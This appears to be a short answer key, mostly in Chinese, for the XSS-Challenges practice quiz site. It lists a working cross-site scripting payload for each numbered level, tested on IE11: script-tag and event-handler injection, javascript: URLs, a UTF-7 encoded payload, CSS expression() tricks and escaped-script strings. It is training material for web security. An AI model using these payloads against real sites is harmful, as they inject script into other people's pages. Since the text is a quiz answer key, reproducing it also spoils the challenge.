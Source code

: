 # XSS-Challenges
http://xss-quiz.int21h.jp/
全部在IE11浏览器上作答

1 <img onclick="alert(document.domain);" src=>
2 "</b><script>alert(document.domain);</script><b>"

4 把type为hidden的input的type改为text 然后在框内输入"><script>alert(document.domain)</script>
5 将input的maxlength改为150或者一个较大的数 然后在框内输入 "><script>alert(document.domain)</script>
6 " onclick = "alert(document.domain)"
7 " onclick = alert(document.domain)
8 javascript:alert(document.domain)
9 将charset的值改为utf-7 然后输入+ACIAIABvAG4AYwBsAGkAYwBrACAAPQAgACIAIABhAGwAZQByAHQAKABkAG8AYwB1AG0AZQBuAHQALgBkAG8AbQBhAGkAbgApAA0AC-
10 " onclick = "alert(document.domaidomainn)"
11 "><a href="javascrip&#x9;t:alert(document.domain)"><"xss</a>
12 `` onclick = alert(document.domain)
13 aa:expression(if(!window.x){alert(document.domain);window.x=1})
14 aa:expre/**/ssion(if(!window.x){alert(document.domain);window.x=1})
15 \\x3Cscript\\x3Ealert(document.domain)\\x3C/script\\x3E
16 \\u003cscript\\u003ealert(document.domain);\\u003c/script\\u003e

